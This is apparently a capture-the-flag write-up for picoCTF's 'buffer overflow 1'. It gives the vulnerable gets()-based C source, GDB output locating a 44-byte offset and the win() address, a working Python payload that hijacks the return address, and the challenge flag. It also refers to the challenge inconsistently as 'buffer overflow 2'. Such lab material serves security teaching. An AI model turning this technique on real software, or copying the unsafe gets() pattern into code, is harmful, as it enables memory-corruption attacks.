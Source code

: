 # buffer overflow 1

When we take a look at the binary, we can see all it does is take a string and then returns.
```
root@kali:~/Crack Me# ./vuln2
Please enter your string:
asdf
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```
When it says it returns, this gives us a massive hint. From a game-theory perspective, if the title is "buffer overflow 2", and it returns, we can infer that the solution must have something to do with overflowing the buffer to let us return elsewhere.

Taking a look at the source code confirms our suspicious.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Conveniently enough, there is a `win` function that is unconnected from the rest of the code, and a conveniently labeled `vuln`. First let's open up GDB and try to find the offset.
```
(gdb) r
Starting program: /root/Crack Me/vuln2
Please enter your string:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Okay, time to return... Fingers Crossed... Jumping to 0x4c4c4c4c

Program received signal SIGSEGV, Segmentation fault.
0x4c4c4c4c in ?? ()
```
Okay, so we received a segmentation fault when we tried to access `0x4c4c4c4c`. That happens to be LLLL in hex, so we now know our offset is 44 bytes. Now let's try to figure out the address of `win`.
```
(gdb) info func
All defined functions:

Non-debugging symbols:
...
0x080485cb  win
...
```
Nested in a list of functions is our `win` function. Putting it all together, we have our payload.
```
slopey112@pico-2018-shell:/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba$ python -c "print 'A'*
44+'\xcb\x85\x04\x08'" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}
```
